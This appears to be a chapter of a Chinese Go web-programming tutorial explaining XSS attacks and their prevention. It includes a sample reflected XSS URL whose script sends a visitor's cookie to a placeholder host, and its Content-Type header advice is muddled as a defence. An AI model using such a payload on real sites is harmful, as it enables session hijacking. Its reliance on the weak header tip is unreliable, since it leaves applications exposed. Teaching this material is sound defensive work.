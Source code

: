 ##9.3 避免XSS攻击 
随着互联网技术的发展，现在的Web应用都含有大量的动态内容以提高用户体验。所谓动态内容，就是根据用户环境和需要，Web应用程序能够输出相应的内容。动态站点会受到一种名为“跨站脚本攻击”（Cross Site Scripting, 安全专家们通常将其缩写成 XSS）的威胁，而静态站点则完全不受其影响。

##什么是XSS
XSS攻击：跨站脚本攻击(Cross-Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。XSS是一种经常出现在web应用中的计算机安全漏洞，它允许恶意web用户将代码植入到提供给其它用户使用的页面中。不同于大多数攻击(一般只涉及攻击者和受害者)，XSS涉及到三方，即攻击者、客户端与Web应用。XSS的攻击目标是为了盗取客户端的cookie或者其他网站用于识别客户端身份的敏感信息。获取到合法用户的信息后，攻击者甚至可以假冒最终用户与网站进行交互。

XSS目前主要的手段和目的如下：

- 盗用cookie，获取敏感信息。
- 利用植入Flash，通过crossdomain权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
- 利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击者）用户的身份执行一些管理动作，或执行一些一般的如发微博、加好友、发私信等操作，前段时间新浪微博就遭遇过一次XSS。
- 利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
- 在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果

##XSS的原理
XSS漏洞产生的原因是由于Web应用对用户提交请求的数据未做充分的检查过滤，允许用户在提交的数据中掺入HTML代码(最主要的是“>”、“<”)，然后未加编码地输出到第三方用户的浏览器，这些攻击者恶意提交代码会被受害用户的浏览器解释执行。

许多流行的留言本和论坛程序允许用户发表包含HTML和javascript的帖子。假设用户甲发表了一篇包含恶意脚本的帖子，那么用户乙在浏览这篇帖子时，恶意脚本就会执行，盗取用户乙的cookie信息。有关攻击方法的详细情况请看如下例子：

我们现在有一个网站，根据参数输出用户的名称，例如访问url："http://127.0.0.1/?name=astaxie"，就会在浏览器输出如下信息：

	hello astaxie

那么如果我们传递这样的url："http://127.0.0.1/?name=<script>alert('astaxie,xss')</script>",这个时候你就会发现你的浏览器跳出一个弹出框，这说明站点已经存在了XSS漏洞，那么用户如何来获取Cookie呢？也是类似上面的代码，输入如下的url："http://127.0.0.1/?name=<script>document.location='http://www.xxx.com/cookie?'%20+document.cookie</script>"，这样就可以把当前的cookie发送到指定www.xxx.com站点。这样攻击者就可以把类似这样的url进行短域名服务缩短url，然后把这些url通过途径传播开来，被攻击用户一旦点击了这样的url，相应数据就会被发送到收集cookie的脚本中。这样就获得了cookie信息，然后利用Websleuth之类的工具来检查是否能盗取那个账户。

上面的这种漏洞叫做反射式漏洞，其实XSS漏洞还有另外两种：本地利用漏洞和存储式漏洞

- 本地利用漏洞，这种漏洞存在于页面中客户端脚本自身。
- 存储式漏洞，这是目前应用最为广泛而且有可能影响到Web服务器自身安全的漏洞。

##如何预防XSS
其实这个问题很简单，坚决不要相信任何用户输入并过滤所有特殊字符。这样就能消灭绝大部分的XSS攻击。

目前防御XSS主要有如下几种方式：

- 过滤特殊字符
	
	避免XSS的方法之一主要是将用户所提供的内容进行过滤，Go语言提供了HTML的过滤函数：

	text/template包下面的HTMLEscapeString、JSEscapeString等函数

- 使用HTTP头指定类型
	
	w.Header().Set("Content-Type","text/javascript")

	这样就可以让浏览器解析javascript代码，而不会是html输出。
##总结
通过上面的介绍我们发现了XSS漏洞是相当有危害的，我们在开发我们的Web应用的时候，一定要记住过滤数据，特别是在输出到客户端之前，这个是现在行之有效的防止XSS的手段。

## links
   * [目录](<preface.md>)
   * 上一节: [确保输入过滤](<9.2.md>)
   * 下一节: [避免SQL注入](<9.4.md>)

## LastModified 
   * $Id$